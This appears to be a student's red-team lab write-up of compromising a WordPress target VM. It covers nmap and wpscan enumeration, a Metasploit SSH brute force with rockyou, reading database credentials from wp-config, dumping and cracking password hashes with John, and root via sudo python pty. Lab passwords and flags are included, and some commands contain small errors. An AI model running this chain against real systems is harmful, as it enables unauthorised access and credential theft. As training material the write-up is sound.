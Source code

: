 ## Red Team: Summary of Operations

Table of Contents

* Exposed Services
* Critical Vulnerabilities
* Exploitation

Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

$ nmap -sV 192.168.1.110

This scan identifies the services below as potential points of entry:

![nmap](https://user-images.githubusercontent.com/92223941/167322975-5349cecb-c273-4a42-b673-84b126b66bb3.PNG)


* Target 1
	- Port 22/TCP SSH
	- Port 80/TCP http
	- Port 111/TCP rpcblind
	- Port 139/TCP netbios -ssn
	- Port 445/TCP netbios -ssn

The following vulnerabilities were identified on each target:

* Target 1
	- Wordpress enumeration
	- Improper use of SSH
	- Weak user password
	- Misconfigure use of privilege escalation

Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

* Target 1
	- flag1.txt: b9bbcb33e11b80be759c4e844862482d
		- Exploit Used
			- Used wpscan to enumerate the user from the      wordpress website
			- wpscan –url http://192.168.1.110/wordpress -enumerate u
			![flag1a](https://user-images.githubusercontent.com/92223941/167323054-f8c2b10b-e834-45a1-bf7f-1283fe656693.PNG)

			- Used SSH scanner module on Metasploit to brute force login attempts with the username and Michael and wordlists from Kali
			- Msfconsole
			- Use auxiliary/scanner/ssh/ssh_login
			- options
			- set Rhosts 192.168.1.110, 
			- set PASS_File /usr/share/wordlists/rockyou.txt,
			- set USERNAME Michael
			- set VERBOSE true
			- run
			
			![flag1c](https://user-images.githubusercontent.com/92223941/167322697-b6a57985-93ba-4480-87b8-1155fb5ec86e.PNG)
			![flag1d](https://user-images.githubusercontent.com/92223941/167322753-bc60b2cf-8925-423d-aaef-10d562a389a3.PNG)
			![flag1e](https://user-images.githubusercontent.com/92223941/167322783-4532f436-9483-4d4d-9c7b-35467c6147fd.PNG)
			![flag1f](https://user-images.githubusercontent.com/92223941/167322800-4b27040c-e4e8-4bfb-92a7-888fa5753e72.PNG)




			- I then login into Michael via SSH 
			- SSH michael@192.168.1.110 password: michael
			![flag1g](https://user-images.githubusercontent.com/92223941/167323288-8b4c13b5-06ca-48c1-a75c-587654283f3a.PNG)

			- I then went into the html directory and listed the directories in it
			- cd /var/www/html
			- ls
			- I then went into the service.html file and found flag1.
			- nano service.html
			-  ctrl+w “flag”

	- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
		- Exploit Used
			- I went back one directory and listed the files and found flag 2
			- cd ..
			- ls
			- cat flag2.txt

	- flag3.txt: afc01ab56b50591e7dccf93122770cd2
		- Exploit Used
			- I went back to the html directory and went into the wordpress directory and listed the directories
			- cd html
			- cd wordpress
			- I then went into the wp-config file and found the password for sql login
			- Nano wp-config.php
			- I logged in via sql
			- mysql -u root -P password: R@v3nSecurity
			- I then viewed the databases then viewed the tables
			- show databases;
			- show tables;
			- I then selected wp_posts and was able to find flag3
			- select * from wp_posts;

	- Flag4.txt: 715dea6c055b9fe3337544932f2941ce
		- Exploit Used
			- While still being logged in via sql I described the table wp_users
			- describe wp_users;
			- I then formatted the username and passwords being separated by a colon sign.
			- select concat_ws(‘:’, user_login, user_pass) from wp_users;
			- I then outputted the formatted table into text file in the www directory and then viewed the file under michael
			- select concat_ws(‘:’, user_login, user_pass) from wp_users into outfile ‘var/www/wp_hashes.txt’;
			- cat wp_hashes.txt
			- I copied wp_hashes.txt file and exited Michael’s computer and pasted the file on www directory on my pc
			- “copied username and passwords”
			- Exit
			- cd /var/www
			- ls
			- touch wp_hashes.txt
			- nano wps_hashes.txt
			- “pasted username and passwords”
			- I ran john the ripper to brute force the password with the usernames and found the password for steven
			- John wp_hashes.txt
			- I logged into Steven via ssh 
			- ssh steven password:pink84
			- I ran a python command to login via root
			- sudo python -c ‘import pty:pty.spawn(“/bin/bash”)’
			- I then went into the root directory I ran the list command and found flag 4 and then I viewed the flag
			- cd /root
			- ls
			- cat flag4.txt
